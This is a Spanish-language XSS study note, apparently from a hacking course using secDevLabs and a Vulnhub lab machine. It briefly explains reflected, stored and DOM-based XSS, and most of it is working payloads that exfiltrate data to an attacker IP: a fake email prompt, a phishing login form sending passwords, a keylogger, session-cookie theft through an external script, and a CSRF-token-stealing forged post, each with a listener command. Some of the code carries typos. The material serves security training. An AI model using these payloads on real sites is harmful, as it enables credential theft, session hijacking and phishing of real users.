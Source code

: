 # Cross-Site Scripting

Tags: #XSS #OWASP #Explotacion 

Una vulnerabilidad **XSS** (**Cross-Site Scripting**) es un tipo de vulnerabilidad de seguridad informática que permite a un atacante ejecutar código malicioso en la página web de un usuario sin su conocimiento o consentimiento. Esta vulnerabilidad permite al atacante robar información personal, como nombres de usuario, contraseñas y otros datos confidenciales.

En esencia, un ataque XSS implica la inserción de código malicioso en una página web vulnerable, que luego se ejecuta en el navegador del usuario que accede a dicha página. El código malicioso puede ser cualquier cosa, desde scripts que redirigen al usuario a otra página, hasta secuencias de comandos que registran pulsaciones de teclas o datos de formularios y los envían a un servidor remoto.

Existen varios tipos de vulnerabilidades XSS, incluyendo las siguientes:

-   **Reflejado** (**Reflected**): Este tipo de XSS se produce cuando los datos proporcionados por el usuario **se reflejan en la respuesta** HTTP sin ser verificados adecuadamente. Esto permite a un atacante inyectar código malicioso en la respuesta, que luego se ejecuta en el navegador del usuario.
-   **Almacenado** (**Stored**): Este tipo de XSS se produce cuando un atacante **es capaz de almacenar código malicioso** en una base de datos o en el servidor web que aloja una página web vulnerable. Este código se ejecuta cada vez que se carga la página.
-   **DOM-Based**: Este tipo de XSS se produce cuando el código malicioso **se ejecuta en el navegador del usuario a través del DOM** (Modelo de Objetos del Documento). Esto se produce cuando el código JavaScript en una página web modifica el DOM en una forma que es vulnerable a la inyección de código malicioso.

Los ataques XSS pueden tener graves consecuencias para las empresas y los usuarios individuales. Por esta razón, es esencial que los desarrolladores web implementen medidas de seguridad adecuadas para prevenir vulnerabilidades XSS. Estas medidas pueden incluir la validación de datos de entrada, la eliminación de código HTML peligroso, y la limitación de los permisos de JavaScript en el navegador del usuario.

A continuación, se proporciona el proyecto de GitHub correspondiente al laboratorio que nos estaremos montando para poner en práctica la vulnerabilidad XSS:

-   **secDevLabs**: [https://github.com/globocom/secDevLabs](https://github.com/globocom/secDevLabs)


## JavaScript en la web

Los XSS pueden interpretar código en **HTML y/o  JavaScript** y es ahí en donde podemos colocar las inyecciones.

```javascript
<script>alert("XSS")</script>                                /// Creamos una ventana emergente con codigo javascript que dice XSS
```

----
Podemos crear un script en donde nos devuelva el correo o algún dato a nuestra IP con un servidor hecho con http,  colocamos la IP de nuestro servidor en fetch.
```javascript
<script>
    var email = prompt("Por favor, introduce tu correo electronico para visualizar el post", "example@example.com");

    if (email == null || email == ""){
        alert("Es necesario introducir un correo para ver el post");
    } else{
        fetch("http://192.168.68.108/?email=" + email );  
    }
</script>
```

```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80 para recibir las peticiones 
```

----
También lo podemos hacer con HTML (Phishing)
```html
<div id="formContainer"></div>

<script>
	var email;
	var password;
	var form = '<form>' +
		'Email: <input type="email" id="email" required>' +
		' Contrasena: <input type="password" id="password" required>' +
		'<input type="button" onclick="submitForm()" value="Submit">' +
		'</form>';
		
	document.getElementByld(formContainer”).innerHTML = form;
	
	function submitForm() {
		email = document.getElementByld("email").value;
		password = document.getElementByld("password").value;
		fetch("http://192.168.68.108/?email=" + email + "&password="+ password);
	}
</script>
```

```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80 para recibir las peticiones 
```

----
Podemos crear un Keylogger JavaScript
```javascript
<script>
   var k = "";    document.onkeypress = funtion(e){
        e = e || window.event;                        // Opcional para que en cualquier navegador funcione el Keylogger
        k += e.key;
        var i = new Image();
        i.src = "http://192.168.68.111/" + k;
    };
</script>
```

```bash
❯ python3 -m http.server 80  | grep -oP "GET /\k[^.*\s]+"      # Nos montamos un servidor http 80 para recibir las peticiones y que las filtre 
```

----
Podemos crear un Script para redirigir al usuario
```javascript
<script>
	window.location.href = "https://hack4u.io";
</script>
```



## JavaScript 

Web para identificar un [Json Web Token](https://jwt.io/), este se encuentra en: **Ctrl + Shift + c > Application/Storage > Session**

External JavaScript Source, podemos cargar código desde un servidor externo para tratar de robarle la cookie de sesión.
* Debemos de ver en la web que no tenga activa el **httpOnly** y se encuentra en **Application** ya que eso impediria poder robarla.
* Esto seria un **Cookie Hijacking**

Esto lo colcaremos en la web de prueba y crearemos la publicacion
```javascript
<script src="http://192.168.68.111/test.js"></script>
```
* Cuando creas el archivo .js ya no es necesario poner las cabeceras <script></script> y lo podemos pegar directamente en la web de prueba
```bash
❯ nvim test.js                                                  # Creamos el archivo js
```

Con este robamos la Cookie de Sesion del usuario.
```javascript
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.68.111/?cookie=' + document.cookie);
request.send();         
```

```bash
❯ python3 -m http.server 80                                     # Nos montamos un servidor http 80 para recibir las peticiones 
```
Después de tener la **Cookie de Session** podemos pegarla en donde se encuentra la nuestra 'sustituyendola' en la web y así cuando recarguemos la pagina, estaremos como el otro usuario.

----

Esto lo colocaremos en la web de prueba y crearemos la publicación
```javascript
<script src="http://192.168.68.111/pwned.js"></script>
```

* Cuando creas el archivo .js ya no es necesario poner las cabeceras <script></script>
```bash
❯ nvim pwned.js                                                  # Creamos el archivo js
```

Esto se usa una vez obtenido la **csrf_token y value**
```javascript
var domain = "http://localhost:10007/newgossip";
var req1 = new XMLHttpRequest();
req1.open('GET', domain, false);
req1.withcredentials = true;                               // Por si el Token es Dinamico y asi lo volvemos Estatico
req1.send();

var response = req1.responseText;
var parser = new DOMParser();
var doc = parser.parserFromString(respose, 'text/html');
var token = doc.getElementsByName("_csrf_token")[0].value;

var req2 = new XMLHttpRequest();
var data = "title=HACKED&subtitle=HaCkEd&text=HAC%20ked&_csrf_token=" + token;   // El %20 es un espacio en urlencode
req2.open('POST', 'http://localhost:10007/newgossip', false); 
req2.withcredentials = true;
req2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
req2.send(data);
```

```bash
❯ python3 -m http.server 80                                     # Nos montamos un servidor http 80 para recibir las peticiones 
```

----
En esta clase, trataremos de resolver una máquina de la plataforma de **Vulnhub** para practicar los ataques XSS.

Vulnhub es una plataforma de seguridad informática que se centra en la creación y distribución de máquinas virtuales vulnerables con el fin de mejorar las habilidades de los profesionales de la seguridad informática. La plataforma proporciona una amplia variedad de máquinas virtuales (VM) que se han configurado para contener vulnerabilidades deliberadas que pueden ser explotadas para aprender y reforzar técnicas de hacking.

A continuación, se proporciona el enlace a la máquina que nos descargamos en esta clase para practicar esta vulnerabilidad:

-   **Máquina MyExpense**: [https://www.vulnhub.com/entry/myexpense-1,405/](https://www.vulnhub.com/entry/myexpense-1,405/)



